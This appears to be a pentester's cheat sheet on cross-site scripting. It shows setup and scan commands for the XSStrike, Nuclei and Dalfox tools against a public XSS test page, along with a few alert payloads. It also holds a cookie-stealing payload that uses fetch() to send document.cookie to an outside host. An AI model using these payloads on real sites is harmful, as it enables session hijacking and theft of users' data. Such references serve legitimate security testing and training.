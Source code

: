```yaml
---
description: Cross-site scripting cheat sheet
---
```


# XSS

### Tools

**XSStrike**

XSStrike is a Cross Site Scripting detection suite equipped with four hand written parsers, an intelligent payload generator, a powerful fuzzing engine and an incredibly fast crawler.

* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --fuzzer
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php" --crawl -l 3
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --file xss.txt
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj6vjZhXx_XMXjyfIXlDcQ3olR_mJFJ9vyJkDZqUOYNnQCzWDGUce_pb9cGm-TB4wN8g2RChnbB9DOY6ktcPmhpdAa2YNp4sdZKLcYpWKy_-WVCJCnAzvLsT4lhmWRRbVWPYQM9GIYEb0vWxgs92zbVWWtZnZerrO9NsErx2te4t_x4rz9pMxvWNXQetrw/s955/xsstrike.png" alt=""><figcaption><p>XSStrike</p></figcaption></figure>

**Nuclei**

Nuclei has some cool XSS detection template that can be used to hunt low hanging fruit XSS.

{% code overflow="wrap" %}
```bash
nuclei -u "https://brutelogic.com.br/xss.php?a=" -tags xss
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKsc7jaQE8ZSpeD6GKn80EHz74yUCi4kYhDz9cvS3gyxFa42vuwwVRQWWHPdEh6CJ5t_eY2rqml331wuze62eDs7-1DFqkVO8B21XW9z1spp8AfCYyFILb7F2rGlE8JobvylS_qMAYM5ou_Ak9swAkjA1nOf5_Pe8LJV2m4MgOIw-HT4kTOg9TRzsQaBs/s1195/xss%20nuclei.png" alt=""><figcaption><p>Nuclei XSS</p></figcaption></figure>

**Dalfox**

DalFox is a powerful open-source tool that focuses on automation, making it ideal for quickly scanning for XSS flaws and analyzing parameters. Its advanced testing engine and niche features are designed to streamline the process of detecting and verifying vulnerabilities.

* [https://github.com/hahwul/dalfox](https://github.com/hahwul/dalfox)

Usage:

{% code overflow="wrap" %}
```bash
# basic scan
dalfox url https://brutelogic.com.br/xss.php

# scan with custom payload
dalfox url https://brutelogic.com.br/xss.php --custom-payload xss-payload.txt --skip-bav --only-custom-payload
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEggKvGxnkyI8R8QbZHtRDE7WYJkzhL1UcdB8LQYOK4iB54OFu0pC0OCcCEAjqWRq22Jx7ps2c-clA2GGUehA9IZ3cJwcx0NJ4yPLAP6VaV1R2m9kAed6VNdU8lcZVcxx7mLmnnXAGnf3PlxcAGTYXXVEYAOmM3j0YIjJHk6i5sIGcsXqEKjdtXJy7hGqDA/s923/dalfox.png" alt=""><figcaption><p><strong>Dalfox</strong></p></figcaption></figure>

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

For Cookie Stealing

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
